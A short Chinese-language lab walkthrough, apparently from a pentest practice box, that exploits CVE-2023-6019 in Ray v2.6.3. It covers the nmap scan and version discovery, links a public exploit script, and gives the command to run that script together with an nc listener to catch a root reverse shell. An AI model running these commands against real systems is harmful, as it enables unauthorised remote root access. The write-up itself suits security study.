

# ✔️ CVE-2023-6019

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到14个开放端口：

```bash
nmap -sC -sV -p- -oA cve6019 192.168.149.37 --open
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 检查9000端口上的内容，找到了当前正在运行的软件的版本号： http://192.168.233.37:9000/#/cluster/info

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前正在运行的Ray v2.6.3搜索相关漏洞，发现了无需登录的命令注入RCE漏洞：CVE-2023-6019

<figure><figcaption></figcaption></figure>

* Exploit： https://github.com/Clydeston/CVE-2023-6019/blob/main/CVE-2023-6019.py

<figure><figcaption></figcaption></figure>

### ROOT

* 直接利用该脚本，kali做好监听即可收到拥有root权限的反弹shell：

```bash
python3 exploit.py -t 192.168.149.37 -p 9000 -l 192.168.45.244 -lp 4444
# 监听：
nc -lvnp 4444
```

<figure><figcaption></figcaption></figure>
